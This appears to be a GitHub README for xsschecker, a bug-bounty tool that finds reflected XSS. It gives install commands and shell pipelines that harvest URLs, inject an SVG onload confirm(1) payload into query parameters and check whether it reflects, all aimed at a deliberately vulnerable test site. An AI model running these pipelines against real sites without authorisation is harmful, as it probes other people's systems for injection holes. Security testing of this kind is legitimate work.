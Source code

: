 <h1 align="center">xsschecker</h1> <br>

<h3 align="center">xsschecker tool checking reflected endpoints finding possible xss vulnerable endpoints.</h3>

## Install
```bash
go install github.com/rix4uni/xsschecker@latest
```
or

```bash
git clone https://github.com/rix4uni/xsschecker.git && cd xsschecker && go build xsschecker.go && mv xsschecker /usr/bin/
```
## Reflected XSS
```bash
echo "http://testphp.vulnweb.com" | waybackurls | anew | gf xss | qsreplace '"><svg onload=confirm(1)>' | airixss -p "confirm(1)" -H "Header1: Value1;Header2: value2"

echo "http://testphp.vulnweb.com" | waybackurls | nilo | anew | gf xss | urldedupe -qs | bhedak '"><svg onload=confirm(1)>' | airixss -p "confirm(1)" -H "Header1: Value1;Header2: value2" --proxy "http://yourproxy"

echo "http://testphp.vulnweb.com" | waybackurls | nilo | anew | gf xss | qsreplace -a | bhedak '"><svg onload=confirm(1)>' | airixss -p "confirm(1)" -H "Header1: Value1;Header2: value2" -x "http://yourproxy"

echo "http://testphp.vulnweb.com" | waybackurls | anew | gf xss | uro | nilo | qsreplace '"><svg onload=confirm(1)>' | airixss -hm -s -c 5
```

urldedupe bhedak
```bash
waybackurls testphp.vulnweb.com | urldedupe -qs | bhedak '"><svg onload=confirm(1)>' | xsschecker
```

Airixss XSS
```bash
waybackurls testphp.vulnweb.com | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | xsschecker
```

Kxss
```bash
waybackurls testphp.vulnweb.com | kxss | grep "=" | sed 's/URL: //' | sed 's/=.*/=/' | uro | qsreplace '"><svg onload=confirm(1)>' | xsschecker
```

gospider
```bash
gospider -s "testphp.vulnweb.com" -c 10 -d 5 -t 100 --other-source | tr " " "\n" | kxss | grep "=" | sed 's/URL: //' | sed 's/=.*/=/' | uro | qsreplace '"><svg onload=confirm(1)>' | xsschecker
```
